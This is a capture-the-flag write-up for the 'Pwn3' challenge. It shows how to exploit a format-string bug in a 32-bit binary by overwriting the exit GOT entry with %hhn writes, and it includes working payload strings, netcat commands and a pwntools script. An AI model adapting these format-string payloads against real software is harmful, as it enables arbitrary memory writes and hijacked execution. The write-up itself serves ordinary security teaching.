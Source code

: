 # Pwn3 write-up

# ![](/assets/problem-statement.png)

---

Exploit a format string vulnerability

Flag: **gigem{F0RM@1NG\_1S\_H4RD}**

## Analysis

Suppose we run  the program with the string `AAAAAAAAAAAAAA`

When the program is on `printf`,

![](/assets/at-printf.png)

The stack looks like:

```
BFFFEDC0  BFFFEDD0  MEMORY:BFFFEDD0  <--- ESP (Pointer to our string)
BFFFEDC4  00000002  MEMORY:00000002  Dword 1
BFFFEDC8  00000000  MEMORY:00000000  Dword 2
BFFFEDCC  00000000  MEMORY:00000000  Dword 3
BFFFEDD0  41414141  MEMORY:41414141  <--- Our entered string
BFFFEDD4  41414141  MEMORY:41414141
BFFFEDD8  41414141  MEMORY:41414141
BFFFEDDC  00004141  MEMORY:00004141
```

* The top of the stack contains the pointer \(address\) to our entered string.
* After that there are 3 dwords \(12 bytes\) and then our string begins.

Thus when exploiting, our entered string can be considered as the 4th parameter to printf.

The function which prints the flag is located at `080485AB`. It is not called anywhere by the program. We have to somehow redirect the execution flow to there so that it prints our flag.

```nasm
.text:080485AB public print_flag
.text:080485AB print_flag proc near
.text:080485AB
.text:080485AB var_D= byte ptr -0Dh
.text:080485AB fp= dword ptr -0Ch
.text:080485AB
.text:080485AB push    ebp
.text:080485AC mov     ebp, esp
.text:080485AE sub     esp, 18h
.text:080485B1 sub     esp, 0Ch
.text:080485B4 push    offset s                        ; "This function has been deprecated"
.text:080485B9 call    _puts
.text:080485BE add     esp, 10h
.text:080485C1 sub     esp, 8
.text:080485C4 push    offset modes                    ; "r"
.text:080485C9 push    offset filename                 ; "flag.txt"
.text:080485CE call    _fopen
```

The Global Offset Table looks like:

```
.got.plt:0804A00C 64 A0 04 08 off_804A00C dd offset printf ; DATA XREF: _printfr
.got.plt:0804A010 68 A0 04 08 off_804A010 dd offset gets ; DATA XREF: _getsr
.got.plt:0804A014 6C A0 04 08 off_804A014 dd offset _IO_getc ; DATA XREF: __IO_getcr
.got.plt:0804A018 70 A0 04 08 off_804A018 dd offset puts ; DATA XREF: _putsr
.got.plt:0804A01C 74 A0 04 08 off_804A01C dd offset exit ; DATA XREF: _exitr
.got.plt:0804A020 78 A0 04 08 off_804A020 dd offset __libc_start_main
```

Later in the program after `printf` returns `exit` is called.  
If we modify the address of `exit` in the GOT with that of `print_flag`, it would be executed and we would get our flag.

The entry of `exit` in the GOT is at `0804A01C` and it contains the bytes `74 A0 04 08`.  
The address of `print_flag` in little endian byte order is `AB 85 04 08`.  
Hence we would only need to write the two bytes `AB 85` , as the remaining two are already properly set up.

Summarizing,

Write`0xAB`  \(171\) to `0804A01C`

Write `0x85` \(133\) to `0804A01D`

Since 133 &lt; 171, we can write 133 at `0804A01D` followed by 171 at `0804A01C`.  
\(The reverse is also possible where we have to use wrap around. More on this next\).

#### Building the exploit string

Our exploit string will start with the two addresses in little endian byte order.

```
    -------------8 bytes------------
    |               |              |
    |  1st address  | 2nd address  |
    |               |              |
    \x1d\xa0\x04\x08\x1c\xa0\x04\x08
```

This takes up 8 bytes.

The string is located at an offset of 12 bytes \(3 dwords\) from the pointer to itself \(See above\).  
To reach the start of the string on the stack we need to consume these 3 dwords.  
The format string that can be used is`%08x%08x%08x`

The exploit string generated till this point is

```
\x1d\xa0\x04\x08\x1c\xa0\x04\x08%08x%08x%08x
```

When this is passed to `printf`, the number of bytes it will display = 4 + 4 + 8 + 8 + 8 = 24

To reach 133, we still need to print `133 - 24 = 109` more bytes. We can append this 109 bytes to get:

```
\x1d\xa0\x04\x08\x1c\xa0\x04\x08%08x%08x%08xAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

Alternatively, we can make the last or anyone of the `%08x` to display 109 bytes using space padding:

```
\x1d\xa0\x04\x08\x1c\xa0\x04\x08%08x%08x%109x
```

Number of bytes displayed till now is 133. We can use the [format specifier](http://www.cplusplus.com/reference/cstdio/printf/) `%hhn` to write this value at the address specified. The address is a pointer to a variable and usually passed as an argument to `printf`. Here we have provided the address \(`0804A01D`\) at the beginning of the string itself.

```
\x1d\xa0\x04\x08\x1c\xa0\x04\x08%08x%08x%109x%hhn
```

`hh` is the **length sub-specifier** and it indicates to **write a byte value** i.e. the address is a pointer to a byte. If the value to write is larger than a byte, it would be automatically **wrapped**. The situation is similar for other length sub-specifiers such as `h`, `l` and `ll`. Without any length sub-specifier it defaults to `int`.

Now, at this point, we have written `0x85` \(133\) to the location `0804A01D`. In this process we have also displayed 133 bytes on the terminal.

The next task is to write `0xAB` \(171\) to the location `0804A01C` and for that we need to display `171 - 133 = 38` more bytes. These bytes can again be simply appended to the exploit string. Using this approach our exploit string would be:

```
\x1d\xa0\x04\x08\x1c\xa0\x04\x08%08x%08x%109x%hhnAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%hhn
```

```bash
$ python -c "print '\x1d\xa0\x04\x08\x1c\xa0\x04\x08%08x%08x%109x%hhnAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%hhn'" > exploit
$ nc pwn.ctf.tamu.edu 4323 < exploit
Enter a word to be echoed:
��0000000200000000                                                                                                            0AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAThis function has been deprecated
gigem{F0RM@1NG_1S_H4RD}
```

#### Using positional arguments to printf

The exploit string can be shortened. We can use [positional arguments](http://stackoverflow.com/a/6322594/1833653) to `printf` which would eliminate the need for consuming dwords using `%08x`.

The exploit string in this case would be:

```
\x1d\xa0\x04\x08\x1c\xa0\x04\x08%125x%4$hhnAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%5$hhn
```

If we use python, we need to properly escape the string, the `$` symbols needs to be escaped:

```
$ python -c "print '\x1d\xa0\x04\x08\x1c\xa0\x04\x08%125x%4\$hhnAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%5\$hhn'" > exploit

$ xxd exploit
0000000: 1da0 0408 1ca0 0408 2531 3235 7825 3424  ........%125x%4$
0000010: 6868 6e41 4141 4141 4141 4141 4141 4141  hhnAAAAAAAAAAAAA
0000020: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
0000030: 4141 4141 4141 4141 4125 3524 6868 6e0a  AAAAAAAAA%5$hhn.

$  nc pwn.ctf.tamu.edu 4323 < exploit
Enter a word to be echoed:
��                                  2AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAThis function has been deprecated
gigem{F0RM@1NG_1S_H4RD}
```

#### Alternative approach instead of appending 38 A's

Alternatively, before the 2nd address, we can write a dummy dword \(`0xDEADBEEF` here\) and use something like `%38x`for referring to it. In addition other field width sub-specifier have to be reduced by 4.

```
\x1d\xa0\x04\x08\xDE\xAD\xBE\xEF\x1c\xa0\x04\x08%08x%08x%105x%hhn%38x%hhn
```

If we use positional arguments, the exploit string becomes even more shorter:

```
\x1d\xa0\x04\x08\xDE\xAD\xBE\xEF\x1c\xa0\x04\x08%121x%4$hhn%38x%6$hhn
```

Note that the positional arguments are `%4$hhn` and `%6$hhn`. This is because the 5th argument to printf is `DEADBEEF`

## Using pwntools \(automated\)

#### Generate the exploit

First parameter \(4\) indicates that the string is the 4th parameter.  
See the [pwntools docs](http://python3-pwntools.readthedocs.io/en/latest/fmtstr.html#pwnlib.fmtstr.fmtstr_payload) for more info.

```py
from pwnlib.fmtstr import fmtstr_payload
open('exploit', 'w').write(fmtstr_payload(4, {0x0804a01c: 0x080485ab}, write_size='byte'))
```

#### Profit :\)

```bash
$ xxd exploit 
0000000: 1ca0 0408 1da0 0408 1ea0 0408 1fa0 0408  ................
0000010: 2531 3535 6325 3424 6868 6e25 3231 3863  %155c%4$hhn%218c
0000020: 2535 2468 686e 2531 3237 6325 3624 6868  %5$hhn%127c%6$hh
0000030: 6e25 3463 2537 2468 686e                 n%4c%7$hhn

$ nc pwn.ctf.tamu.edu 4323 < exploit
Enter a word to be echoed:
����                       This function has been deprecated
gigem{F0RM@1NG_1S_H4RD}
```




